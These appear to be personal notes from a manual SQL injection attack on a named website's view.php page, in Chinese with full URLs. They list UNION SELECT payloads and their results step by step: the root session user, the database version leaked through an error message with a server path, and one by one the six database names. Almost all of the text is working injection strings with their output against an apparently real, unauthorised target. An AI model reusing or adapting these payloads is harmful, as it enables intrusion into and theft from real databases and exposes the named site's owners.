 	session_user是root,   session_user() like "%root%"

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%20--

	界面上出现了29

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,@@version%20--

	获取数据库版本, 5.0.91-community-nt
	
	Warning: file_get_contents(D:/www/celebrate/templist/default/5.0.91-community-nt) [function.file-get-contents]: failed to open stream: No such file or directory in D:\www\celebrate\inc\temp.php on line 56

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%20(select%20count(*)%20from%20information_schema.tables)%20=109

	information_schema的TABLES表中有109条记录

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20count(distinct(table_schema))%20from%20information_schema.tables)%20--

	一共有六个数据库

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%200,1)%20--

	第一个数据库: information_schema

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%201,1)%20--

	第二个数据库: duxcms

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%202,1)%20--

	第三个数据库: jcms

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%203,1)%20--

	第四个数据库: mysql

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%204,1)%20--

	第五个数据库: qcms
	
http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%205,1)%20--
